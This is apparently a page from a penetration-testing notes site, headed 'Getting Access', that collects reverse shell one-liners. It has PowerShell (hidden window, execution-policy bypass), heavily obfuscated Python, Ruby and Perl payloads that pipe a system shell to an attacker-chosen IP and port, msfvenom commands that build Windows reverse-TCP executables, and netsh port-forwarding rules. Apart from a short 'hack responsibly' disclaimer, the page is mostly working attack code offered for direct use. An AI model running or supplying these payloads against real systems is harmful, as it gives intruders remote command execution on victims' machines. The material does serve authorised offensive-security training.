 # Getting Access

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

Not much here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)

## **Reverse Shells**

TODO: description and methodology for each section \(as needed\); Fix code examples so they can be used for scripting

### **PowerShell Reverse Shells**

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$ip",$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('$ip',$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

* Need to customize the variables `$ip` and `$port` 

### **Python Reverse Shells**

```python
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect((ipAddress, port)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

* The variables `ipAddress` and `port` need to be customized.  `ipAddress` must be a string, `port` must be an integer.

### Ruby Reverse Shells

```ruby
ruby -rsocket -e 'c=TCPSocket.new("$ip","$port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

ruby -rsocket -e 'f=TCPSocket.open("$ip","$port").to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Perl Reverse Shells

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$ip:$port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -e 'use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($port,inet_aton($ip)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};’
```

* The variables `$ip` and `$port` need to be customized.  `$ip` must be a string, `$port` must be an integer.

### Meterpreter Reverse Shells

* **Windows Non-Staged reverse TCP**

```text
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > reversetcp.exe
```

* **Windows Staged reverse TCP**

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe > reversetcp.exe
```

## netsh port forwarding

```text
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=9000 connectaddress=192.168.0.10 connectport=80
netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=9000
```



If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

